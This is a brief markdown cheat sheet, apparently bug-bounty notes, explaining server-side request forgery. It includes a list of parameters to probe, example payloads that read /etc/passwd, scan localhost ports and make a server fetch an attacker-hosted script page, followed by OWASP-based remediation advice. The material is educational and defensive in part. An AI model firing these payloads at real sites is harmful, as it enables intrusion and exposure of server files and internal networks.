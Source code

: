 # 🔀 SSRF (Server Side Request Forgery)

SSRF refers to an attack where an attacker is able to send crafted request from vulnerable web application.

Attacker use parameters used in web application to control request from vulnerable server.
e.g:. `http://websitename.com/?parameter=http://anotherwebsite.com` So server is making request behalf of attacker.

## Impact 

- Bypass ip whitelisting
- Bypass host based authentication
- Scan the internal network
- Abuse of vulnerable website to blacklist 

## 🔎 How to Find

Find any parameter that may have some kind of external interaction or they can interact to external domain.

Example: `http://example.com/profile/php?uri=http://externalwebsite.com `

## Possible related parameter for SSRF

```
| dest | redirect | uri | path | continue | url | window | next | data | reference | site | html | val | validate 
| domain | callback | return | page | view | dir | show | file | document | folder | root | path | pg | style 
| pdf | template | php_path | doc | feed | host | port | to | out | navigation open result
```

## Exploitation

1. Read file from the server: `http://example.com/profile?file=file:///../etc/passwd`  (here **../etc/passwd** is payload. replace with other payload)

2. Scan internal network open ports: `http://example.com/profile?file=http://localhost:21`  (here **21** is port. change one by one)

3. SSRF through RFI: `http://example.com/profile?file=https://yourwebsite.com/test.html`  (Create malicioud file **test.html** with contain this ` <script>alert(1)</script> ` script and host this file at server.

## ⛑️ Remediation
1. From Application layer:

 - Sanitize and validate all client-supplied input data
 - Enforce the URL schema, port, and destination with a positive allow list
 - Do not send raw responses to clients
 - Disable HTTP redirections
 - Be aware of the URL consistency to avoid attacks such as DNS rebinding and “time of check, time of use” (TOCTOU) race conditions

Do not mitigate SSRF via the use of a deny list or regular expression. Attackers have payload lists, tools, and skills to bypass deny lists.

2. From Network layer

 - Segment remote resource access functionality in separate networks to reduce the impact of SSRF.
 - Enforce “deny by default” firewall policies or network access control rules to block all but essential intranet traffic.
    Hints:
    ~ Establish an ownership and a lifecycle for firewall rules based on applications.
    ~ Log all accepted and blocked network flows on firewalls (see A09:2021-Security Logging and Monitoring Failures).

3. Additional Measures to consider:

 - Don't deploy other security relevant services on front systems (e.g. OpenID). Control local traffic on these systems (e.g. localhost)
 - For frontends with dedicated and manageable user groups use network encryption (e.g. VPNs) on independant systems to consider very high protection needs


## 🔗 Refrence 

- https://portswigger.net/web-security/ssrf
- https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/
